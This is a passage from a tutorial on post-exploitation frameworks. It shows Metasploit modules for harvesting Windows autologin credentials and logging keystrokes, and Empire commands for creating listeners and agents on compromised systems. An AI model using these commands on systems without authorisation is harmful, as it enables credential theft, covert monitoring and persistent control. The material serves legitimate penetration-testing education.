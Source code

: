    - Use Metasploit’s local exploits to escalate privileges on the compromised system.

3. **Data Harvesting**:
   - Extract passwords from the system:

   ```bash
   run post/windows/gather/credentials/windows_autologin
   ```

   - Use keylogging to capture keystrokes:

   ```bash
   run post/windows/capture/keylog_recorder
   ```

### 2. **Empire**

**Overview**:
Empire is a post-exploitation framework that focuses on PowerShell and Python agents. It provides a wide range of modules for executing commands, gathering information, and maintaining control over compromised Windows and Linux systems.

**Key Features**:
- **PowerShell Agent**: Fully functional PowerShell payload for Windows post-exploitation.
- **Python Agent**: Cross-platform agent for Windows, Linux, and macOS.
- **Modular Design**: Over 300 post-exploitation modules, including lateral movement, credential dumping, and persistence.
- **Stealth**: Designed to evade detection with obfuscated commands and in-memory execution.

**Getting Started with Empire**:

1. **Launching Empire**:

   ```bash
   sudo ./empire
   ```

   - Launch the Empire console.

2. **Creating an Agent**:

   ```bash
   listeners
   uselistener http
   execute
   ```

   - Create a listener and generate an agent payload.

3. **Interacting with an Agent**:

   ```bash
   agents
   interact <agent name>
   ```

   - Interact with the compromised system via the agent.

4. **Running Modules**:
   - Use Empire’s extensive module library to execute post-exploitation tasks:
